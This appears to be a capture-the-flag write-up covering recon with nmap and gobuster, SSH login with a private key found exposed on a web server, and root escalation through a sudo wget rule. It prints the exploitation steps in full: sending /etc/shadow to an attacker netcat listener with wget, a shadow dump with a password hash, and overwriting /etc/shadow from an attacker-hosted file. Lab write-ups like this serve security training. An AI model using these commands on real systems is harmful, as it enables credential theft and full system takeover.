


## Nmap: 
---
```bash
nmap -T4 -n -A 10.64.172.42 -oN nmap
```

```bash
Not shown: 998 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   2048 94:96:1b:66:80:1b:76:48:68:2d:14:b5:9a:01:aa:aa (RSA)
|   256 18:f7:10:cc:5f:40:f6:cf:92:f8:69:16:e2:48:f4:38 (ECDSA)
|_  256 b9:0b:97:2e:45:9b:f3:2a:4b:11:c7:83:10:33:e0:ce (ED25519)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-title: Apache2 Ubuntu Default Page: It works
|_http-server-header: Apache/2.4.18 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```
- so we see a web-server is running and `SSH` is open 
- lets look at the website
## further Enumeration: 
---

- so its just the default `Apache` site 
- in the `source-code` i saw this comment:
```bash
<!-- Jessie don't forget to udate the webiste -->
```
- so we found the first potential `username` 
### Gobuster: 
---
- lets use `Gobuster` to scan the `web-server`
```bash
gobuster dir -w /usr/share/SecLists/Discovery/Web-Content/common.txt -u http://10.64.172.42-o gobuster/first_enum
```

```bash
/.hta                 (Status: 403) [Size: 277]
/.htaccess            (Status: 403) [Size: 277]
/.htpasswd            (Status: 403) [Size: 277]
/index.html           (Status: 200) [Size: 11374]
/server-status        (Status: 403) [Size: 277]
/sitemap              (Status: 301) [Size: 314] [--> http://10.64.172.42/sitemap/]
```
- lets look into `/sitemap` 


- lets scan `/sitemap` with `Gobuster` again 

```bash
/.hta                 (Status: 403) [Size: 277]
/.htaccess            (Status: 403) [Size: 277]
/.htpasswd            (Status: 403) [Size: 277]
/.ssh                 (Status: 301) [Size: 319] [--> http://10.64.172.42/sitemap/.ssh/]
/css                  (Status: 301) [Size: 318] [--> http://10.64.172.42/sitemap/css/]
/fonts                (Status: 301) [Size: 320] [--> http://10.64.172.42/sitemap/fonts/]
/images               (Status: 301) [Size: 321] [--> http://10.64.172.42/sitemap/images/]
/index.html           (Status: 200) [Size: 21080]
/js                   (Status: 301) [Size: 317] [--> http://10.64.172.42/sitemap/js/]
```
- in `.ssh` I found a `private-key`, lets try to log into `Jessie's` account with that key: 
```bash 
ssh -i id_rsa jessie@10.64.172.42
```

## Privilege Escalation: 
---
- in `/home/jessie/Documents` we can find the `user.txt` and can read it: 
```bash
0<Redacted>6
```

- after that I executed `sudo -l`: 
```bash
Matching Defaults entries for jessie on CorpOne:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User jessie may run the following commands on CorpOne:
    (ALL : ALL) ALL
    (root) NOPASSWD: /usr/bin/wget
```
- so we can run `wget` with `root-privileges` 

- i first tried to use the this from `GTFOBins`: 

- this didn't work because `wget` had not option `--use-askpass` 
- then I in the internet for an other option and found this: [wget-privesc](https://morgan-bin-bash.gitbook.io/linux-privilege-escalation/sudo-wget-privilege-escalation)

- so what we do, is basically overwrite the `/etc/shadow` file 
- first we have to get the content out of the `shadow` file: 
```bash
[Attacker Machine]
nc -lnvp 1234

[Target Machine]
sudo /usr/bin/wget --post-file=/etc/shadow <local-ip>:1234
```

- then we are storing the content in a new file on our local machine, for example `shadow.txt` 
- the `shadow.txt` should look like this: 
```bash
root:!:18195:0:99999:7:::
daemon:*:17953:0:99999:7:::
bin:*:17953:0:99999:7:::
sys:*:17953:0:99999:7:::
sync:*:17953:0:99999:7:::
games:*:17953:0:99999:7:::
man:*:17953:0:99999:7:::
lp:*:17953:0:99999:7:::
mail:*:17953:0:99999:7:::
news:*:17953:0:99999:7:::
uucp:*:17953:0:99999:7:::
proxy:*:17953:0:99999:7:::
www-data:*:17953:0:99999:7:::
backup:*:17953:0:99999:7:::
list:*:17953:0:99999:7:::
irc:*:17953:0:99999:7:::
gnats:*:17953:0:99999:7:::
nobody:*:17953:0:99999:7:::
systemd-timesync:*:17953:0:99999:7:::
systemd-network:*:17953:0:99999:7:::
systemd-resolve:*:17953:0:99999:7:::
systemd-bus-proxy:*:17953:0:99999:7:::
syslog:*:17953:0:99999:7:::
_apt:*:17953:0:99999:7:::
messagebus:*:17954:0:99999:7:::
uuidd:*:17954:0:99999:7:::
lightdm:*:17954:0:99999:7:::
whoopsie:*:17954:0:99999:7:::
avahi-autoipd:*:17954:0:99999:7:::
avahi:*:17954:0:99999:7:::
dnsmasq:*:17954:0:99999:7:::
colord:*:17954:0:99999:7:::
speech-dispatcher:!:17954:0:99999:7:::
hplip:*:17954:0:99999:7:::
kernoops:*:17954:0:99999:7:::
pulse:*:17954:0:99999:7:::
rtkit:*:17954:0:99999:7:::
saned:*:17954:0:99999:7:::
usbmux:*:17954:0:99999:7:::
jessie:$6$0wv9XLy.$HxqSdXgk7JJ6n9oZ9Z52qxuGCdFqp0qI/9X.a4VRJt860njSusSuQ663bXfIV7y.ywZxeOinj4Mckj8/uvA7U.:18195:0:99999:7:::
sshd:*:18195:0:99999:7:::
```

- then we have to create a new password for `root`: 
```bash
openssl passwd -6 -salt 'salt' 'password'
```

- then we copy the new password into the `shadow.txt`: 
```bash
root:$6$salt$IxDD3jeSOb5eB1CX5LBsqZFVkJdido3OUILO5Ifz5iwMuTS4XMS130MTSuDDl3aCI6WouIL9AjRbLCelDCy.g.:18195:0:99999:7:::
```

- now we have to start up a python `web-server` on our local machine: 
```bash
python3 -m http.server
```

- and transfer the new `shadow.txt` to the `target-machine`, to replace the old `shadow` file: 
```bash
sudo /usr/bin/wget http://<local-ip>:8000/shadow.txt -O /etc/shadow 
```

- now we can log into `root` with the password: `password` : 
```bash
su root
```

- now we can read the `root.txt`: 
```bash
b<Redacted>d
```